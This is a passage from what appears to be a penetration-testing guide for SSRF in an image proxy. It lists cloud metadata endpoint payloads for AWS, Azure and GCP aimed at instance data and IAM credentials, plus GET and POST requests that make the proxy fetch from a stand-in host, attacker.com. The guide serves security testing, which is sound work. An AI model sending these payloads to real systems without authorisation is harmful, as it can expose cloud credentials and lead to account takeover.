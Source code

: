   - **Failure Case**: If the response is an error (e.g., “Connection timed out” or “Invalid URL”), the proxy may block metadata endpoints, but test other cloud providers (e.g., Azure: `http://169.254.169.254/metadata/instance`, GCP: `http://metadata.google.internal/computeMetadata/v1/`).

5. **Additional Tests**:
   - Test deeper metadata paths (e.g., `http://169.254.169.254/latest/user-data` for user scripts).
   - Try alternative cloud metadata endpoints:
     - Azure: `http://169.254.169.254/metadata/instance?api-version=2021-02-01`
     - GCP: `http://metadata.google.internal/computeMetadata/v1/?recursive=true` (with `Metadata-Flavor: Google` header).
   - Test for timeouts or delays, which may indicate blind SSRF (use a tool like `time` with cURL to measure response time).

### Expected Outcome
- **Vulnerable**: The proxy returns cloud metadata, such as instance details or IAM credentials, indicating SSRF. This could allow an attacker to escalate privileges or access sensitive cloud resources.
- **Not Vulnerable**: The proxy rejects the request or returns no metadata, suggesting filtering for known metadata endpoints.

### Risks
- Leaked IAM credentials can lead to full cloud account compromise.
- Exposure of instance metadata (e.g., user-data scripts) may reveal sensitive configurations.

## 3. Malicious URL
**Objective**: Test if the image proxy fetches arbitrary external URLs without validation, which could be used to confirm SSRF or interact with attacker-controlled servers.

### Implementation Steps
1. **Set Up a Controlled Server**:
   - Create a simple HTTP server to log incoming requests:
     - **Python Example**:
       ```bash
       python3 -m http.server 80
       ```
       - This serves files from the current directory and logs requests to the console.
   - Alternatively, use a service like webhook.site or ngrok to expose a public URL (e.g., `http://attacker.com/malicious.jpg`).
   - Ensure the server responds with a valid image (e.g., a JPEG file) to mimic a legitimate request, or log all request details (headers, IP, etc.).

2. **Craft the Payload**:
   - Use your controlled server’s URL: `http://attacker.com/malicious.jpg`.
   - URL-encoded payload: `http%3A%2F%2Fattacker.com%2Fmalicious.jpg`.
   - For POST requests:
     ```json
     {"url": "http://attacker.com/malicious.jpg"}
     ```

3. **Send the Request**:
   - **Using Burp Suite**:
     - Intercept or craft a request to the image proxy.
     - Example GET request:
       ```
       GET /image?url=http://attacker.com/malicious.jpg HTTP/1.1
       Host: example.com
       ```
     - Example POST request:
       ```
       POST /api/image/fetch HTTP/1.1
       Host: example.com
       Content-Type: application/json
